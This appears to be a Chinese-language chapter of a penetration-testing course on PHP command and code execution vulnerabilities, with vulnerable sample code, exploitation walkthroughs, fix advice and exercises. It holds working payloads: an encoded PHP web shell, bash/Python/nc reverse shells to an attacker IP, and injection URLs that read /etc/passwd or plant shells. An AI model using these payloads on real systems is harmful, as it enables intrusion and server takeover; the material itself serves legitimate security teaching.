echo 'PD9waHAgQGV2YWwoJF9QT1NUWyJjbWQiXSk7Pz4=' | base64 -d > /var/www/html/shell.php
```

#### 4. 反弹Shell
```bash
# Bash反弹
bash -i >& /dev/tcp/192.168.1.100/4444 0>&1

# Python反弹
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.100",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

# NC反弹
nc -e /bin/bash 192.168.1.100 4444
```

#### 5. 提权
```bash
# 查看内核版本，找内核漏洞
uname -a

# 查看sudo配置
sudo -l

# 查看SUID文件
find / -perm -u=s -type f 2>/dev/null

# 查看计划任务
crontab -l
cat /etc/crontab
```

### 7.3 危害等级评估

命令执行漏洞的危害等级
通常取决于以下几个因素：

| 因素 | 影响 |
|------|------|
| **Web服务权限** | root/system权限危害最大，www-data权限相对小一些 |
| **能否执行任意命令** | 完全可控的命令执行危害大，有限制的相对小 |
| **是否需要认证** | 不需要登录就能利用的危害更大 |
| **是否有回显** | 有回显的更容易利用，无回显的需要盲注 |
| **网络环境** | 能出网的可以反弹Shell，不能出网的难度大一些 |

一般来说，
**未授权的命令执行漏洞 = 严重/高危**，
因为攻击者直接就能控制服务器。

---

## 🎯 命令执行漏洞产生的原因

命令执行漏洞是怎么产生的呢？
根本原因只有一个：

> **用户输入可控，且拼接到了命令/代码中执行。**

但具体到场景，
有很多种情况。

**图26-7 命令执行漏洞产生原因与场景图**



### 8.1 常见的漏洞场景

#### 场景1：调用系统命令的功能
这是最常见的场景。
很多网站需要调用系统命令来完成某些功能，
比如：

- **ping检测**：用户输入IP，服务器ping一下
- **traceroute**：路由追踪
- **文件处理**：调用ImageMagick、FFmpeg等处理图片/视频
- **系统管理**：重启服务、查看日志等
- **备份功能**：调用tar、zip等命令备份数据

只要有这些功能，
且用户输入拼接到了命令中，
就可能存在命令注入。

**典型漏洞代码：**
```php
<?php
// ping功能 - 存在命令注入！
$ip = $_GET['ip'];
system("ping -c 4 " . $ip);
?>
```

#### 场景2：eval等危险函数的使用
有些开发者图方便，
会用eval来执行一些动态代码，
但又没有严格过滤用户输入。

**典型漏洞代码：**
```php
<?php
// 直接把用户输入传给eval - 严重漏洞！
eval($_GET['code']);
?>
```

#### 场景3：动态函数调用
PHP的变量函数特性很灵活，
但如果函数名和参数都是用户可控的，
就会导致代码执行。

**典型漏洞代码：**
```php
<?php
// 动态函数调用 - 存在代码执行！
$func = $_GET['func'];
$arg = $_GET['arg'];
$func($arg);
?>
```

#### 场景4：正则表达式的/e修饰符
老代码中用 `preg_replace()` 的 `/e` 修饰符，
如果pattern或subject可控，
就可能导致代码执行。

#### 场景5：反序列化漏洞
PHP反序列化漏洞中，
如果能找到合适的"POP链"，
最终也可能导致命令执行。
（这个我们后面会专门讲）

### 8.2 漏洞产生的根本原因

总结一下，
命令执行漏洞产生的根本原因：

1. **输入验证不严格**：没有对用户输入做严格的过滤和检查
2. **使用危险函数**：直接调用system、exec、eval等危险函数
3. **拼接用户输入**：把用户输入直接拼接到命令或代码中
4. **权限过大**：Web服务运行权限过高（比如root）
5. **安全意识不足**：开发者不知道这些函数的危险性

::: tip 一句话总结
> **所有输入都是有害的，所有用户都是不可信的。**
>
> 只要是用户能控制的输入，
> 都不能直接拼接到命令或代码中执行。
:::

---

## 🧭 命令执行漏洞测试方法论

学完了基础知识，在进入实战案例之前，先总结一个简单的测试框架：

### 测试三问

当你在站点上发现一个可能有命令执行的参数时（比如 `?ip=xxx`、`?host=xxx` 等），
按以下三步来测试：

**第一问：有没有回显？**
- 输入一个正常的IP（能ping通的），看页面返回什么
- 输入一个不存在的域名，看页面返回什么
- 通过返回内容的差异，判断你的输入是否真的进入了命令

**第二问：能不能拼命令？**
- 尝试：`127.0.0.1; whoami`、`127.0.0.1 | whoami`、`127.0.0.1 && whoami`
- 看能否获取到命令执行的结果（当前用户名）
- 如果有WAF/过滤，尝试：`127.0.0.1%0awhoami`（换行符绕过分号）

**第三问：怎么综合利用？**
- 能执行命令后，先信息收集：`whoami`、`ipconfig`/`ifconfig`、`net user`
- 尝试反弹Shell（下一章会详细讲）
- 检索服务器上的敏感文件

### 两个关键提醒

1. **没有回显不代表没有漏洞**：有些情况下命令执行了但你看不到结果（"盲命令执行"），
   这时候需要借助DNSLog或延迟检测来判断。

2. **命令执行 ≠ 代码执行**：你通过 `system()` 执行的是系统命令（Linux/Windows），
   而通过 `eval()` 执行的是PHP代码。格式不一样，但危害都是致命的。

---

## 📚 案例讲解

理论讲了这么多，
我们来看几个真实的案例，
加深一下理解。

### 案例1：ping功能引发的命令注入

**场景描述：**
某网站有一个"网络诊断"功能，
用户输入IP地址，
网站会帮你ping一下，
看看网络通不通。

**后端代码（简化版）：**
```php
<?php
// 获取用户输入
$ip = $_GET['ip'];

// 执行ping命令
echo "<pre>";
system("ping -c 4 " . $ip);
echo "</pre>";
?>
```

**漏洞分析：**
- 用户输入 `$ip` 直接拼接到了ping命令中
- 没有做任何过滤和检查
- 典型的命令注入漏洞

**利用方法：**

正常访问：
```
http://target.com/ping.php?ip=127.0.0.1
```
输出正常的ping结果。

注入命令：
```
http://target.com/ping.php?ip=127.0.0.1; whoami
```
输出ping结果 + whoami的结果。

**更进一步：**
```
# 读取/etc/passwd
http://target.com/ping.php?ip=127.0.0.1; cat /etc/passwd

# 写一句话木马
http://target.com/ping.php?ip=127.0.0.1; echo '<?php @eval($_POST["cmd"]);?>' > /var/www/html/shell.php

# 反弹Shell
http://target.com/ping.php?ip=127.0.0.1; bash -i >& /dev/tcp/攻击者IP/4444 0>&1
```

**修复建议：**
- 对IP地址做严格的格式校验（正则匹配）
- 使用PHP自带的网络函数，而不是调用系统命令
- 尽量避免调用系统命令，如果必须调用，用escapeshellcmd()或escapeshellarg()转义

---

### 案例2：eval函数的代码执行

**场景描述：**
某CMS有一个"模板引擎"功能，
支持在模板中使用PHP代码，
但没有做好权限控制，
导致普通用户也能执行PHP代码。

**漏洞代码（简化版）：**
```php
<?php
// 获取用户提交的模板内容
$template = $_POST['template'];

// 解析模板（直接eval执行）
eval('?>' . $template . '<?php ');
?>
```

**漏洞分析：**
- 用户输入 `$template` 直接传给了eval
- 虽然中间加了 `?>` 和 `<?php`，但不影响执行
- 典型的代码执行漏洞

**利用方法：**

POST提交template参数：
```php
template=<?php system('whoami'); ?>
```

或者直接写一句话木马到文件：
```php
template=<?php file_put_contents('/var/www/html/shell.php', '<?php @eval($_POST["cmd"]);?>'); ?>
```

**修复建议：**
- 不要使用eval来解析模板
- 使用成熟的模板引擎（如Smarty、Twig），它们有沙箱机制
- 如果必须使用动态代码，做严格的白名单过滤

---

### 案例3：assert函数的利用

**场景描述：**
某老系统中使用了assert来做一些校验，
但校验内容是用户可控的。

**漏洞代码：**
```php
<?php
// 用户输入的"表达式"
$expr = $_GET['expr'];

// "校验"表达式
assert($expr);
?>
```

**漏洞分析：**
- 在PHP 5.x和7.x版本中，assert会执行字符串形式的代码
- 用户输入直接传给assert，导致代码执行
- 这种写法在老代码中偶尔能见到

**利用方法：**
```
http://target.com/assert.php?expr=system('whoami')
```

注意：assert不需要分号结尾，
因为它接受的是表达式，不是完整的PHP语句。

**修复建议：**
- 不要用assert来执行用户可控的内容
- PHP 7.2+建议关闭zend.assertions
- PHP 8.0+默认不再执行字符串断言

---

### 案例4：preg_replace /e 修饰符漏洞

**场景描述：**
某老系统中有一个字符串替换功能，
使用了preg_replace的/e修饰符。

**漏洞代码：**
```php
<?php
// 获取用户输入
$pattern = $_GET['pattern'];
$replace = $_GET['replace'];
$subject = $_GET['subject'];

// 执行替换
$result = preg_replace('/' . $pattern . '/e', $replace, $subject);
echo $result;
?>
```

**漏洞分析：**
- `/e` 修饰符会把替换结果当作PHP代码执行
- pattern或replace可控都可能导致漏洞
- PHP 7.1之后废弃了/e修饰符，但老系统可能还在用

**利用方法：**
```
?pattern=test&replace=system('whoami')&subject=test
```

这样preg_replace会把'test'替换成'system('whoami')'，
然后因为有/e修饰符，会执行这个PHP代码。

**修复建议：**
- 不要使用/e修饰符
- 改用preg_replace_callback()
- 升级PHP版本

---

### 案例5：call_user_func函数的妙用

**场景描述：**
某系统有一个"动态调用"功能，
用户可以指定函数名和参数来调用。

**漏洞代码：**
```php
<?php
// 用户指定函数名和参数
$func = $_GET['func'];
$param = $_GET['param'];

// 调用函数
call_user_func($func, $param);
?>
```

**漏洞分析：**
- 函数名和参数都是用户可控的
- 可以调用任意PHP函数
- 包括system、exec等危险函数

**利用方法：**
```
# 执行系统命令
?func=system&param=whoami

# 执行PHP代码
?func=eval&param=phpinfo();

# 写文件
?func=file_put_contents&param=shell.php&param2=<?php @eval($_POST[cmd]);?>
```
（注意：file_put_contents需要两个参数，要用call_user_func_array）

**修复建议：**
- 做函数白名单，只允许调用指定的安全函数
- 不要让用户直接控制函数名
- 如果必须动态调用，严格校验函数名

---

## ✏️ 课后习题

学完了本章，
来做几道题巩固一下吧！

### 选择题

1. 以下哪个函数**不能**直接执行系统命令？
   - A. system()
   - B. exec()
   - C. eval()
   - D. shell_exec()

2. 以下哪个符号在Linux中是**命令分隔符**（前面命令执行完执行后面的）？
   - A. `|`
   - B. `;`
   - C. `>`
   - D. `<`

3. PHP中反引号运算符 `` ` `` 的作用和哪个函数类似？
   - A. system()
   - B. exec()
   - C. shell_exec()
   - D. eval()

4. 以下哪种说法是**错误**的？
   - A. 命令执行是执行系统命令
   - B. 代码执行是执行脚本代码
   - C. assert()在所有PHP版本中都能执行代码
   - D. eval()可以执行任意PHP代码

5. Windows cmd中，以下哪个符号可以用作命令分隔符？
   - A. `;`
   - B. `&`
   - C. `#`
   - D. `$`

### 填空题

1. PHP中最常用的四个命令执行函数是：_______、_______、_______、_______。

2. 命令连接符中，_______ 表示前面命令成功才执行后面的，_______ 表示前面命令失败才执行后面的。

3. 代码执行函数中，_______ 是最经典的一句话木马函数，_______ 在PHP 8之后默认不再执行字符串。

4. 动态函数调用的写法是 _______。

5. 把命令结果写入文件（覆盖）用 _______，追加写入用 _______。

### 简答题

1. 简述命令执行和代码执行的区别。

2. 命令执行漏洞产生的根本原因是什么？有哪些常见的漏洞场景？

3. 为什么说命令执行漏洞危害很大？它能用来做什么？

4. 列举至少5种PHP中的代码执行方式（函数或特性）。

5. 如何判断目标服务器是Windows还是Linux？

### 实操题

1. 在DVWA靶场中完成Command Injection的low级别练习。

2. 尝试用不同的命令连接符（;、&&、||、|）来执行命令，观察它们的区别。

3. 编写一个存在命令注入漏洞的PHP脚本（用于学习），然后自己利用它执行命令。

4. 在DVWA的medium级别中，尝试绕过过滤执行命令。（提示：看看过滤了什么）

5. 练习使用不同的命令执行函数（system、exec、shell_exec、passthru），观察它们输出的区别。

---

## 📝 本章小结

这一章我们学习了命令执行漏洞的基础知识，
让我们来总结一下重点：

### 核心概念
- **命令执行漏洞**：用户输入可控，拼接到命令中执行，导致任意命令执行
- **命令执行**：执行操作系统命令（system、exec等）
- **代码执行**：执行脚本代码（eval、assert等）

### 命令执行函数
- `system()`：执行命令并直接输出
- `exec()`：执行命令，结果在数组中
- `shell_exec()`：执行命令，返回完整输出字符串
- `passthru()`：执行命令，直接输出原始结果
- 还有 `popen()`、`proc_open()`、`pcntl_exec()` 等

### 代码执行函数
- `eval()`：最经典的代码执行函数
- `assert()`：断言函数，也能执行代码（PHP 5.x/7.x）
- `call_user_func()` / `call_user_func_array()`：动态函数调用
- `$func()`：变量函数，动态调用
- `preg_replace /e`：正则修饰符漏洞（老版本）
- `create_function()`：创建匿名函数（已废弃）

### 特殊符号
- **命令连接符**：`;`、`&&`、`||`、`|`
- **重定向符**：`>`、`>>`、`<`、`2>`
- **命令替换**：`$()`、反引号 `` ` ``

### Windows vs Linux
- 常用命令不一样（dir vs ls，type vs cat等）
- 命令分隔符有区别（Windows用&，Linux用;）
- 注入时要先判断目标系统

### 漏洞危害
- 信息收集、文件操作、写Shell、反弹Shell、提权、内网渗透
- 未授权的命令执行通常是严重/高危漏洞

### 产生原因
- 用户输入可控 + 拼接到命令/代码中
- 常见场景：ping功能、eval使用、动态函数调用、/e修饰符等

下一章我们会学习更高级的内容：
**命令执行的绕过技巧和利用方法**，
包括空格绕过、关键字绕过、无回显利用、DNSLog、反弹Shell、绕过disable_functions等等。
敬请期待！

---

## 🔗 相关链接

- [⬅️ 上一章：---](/redteam/day030-advanced-进阶篇总览)
- [➡️ 下一章：---](/redteam/day032-advanced-命令执行绕过)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
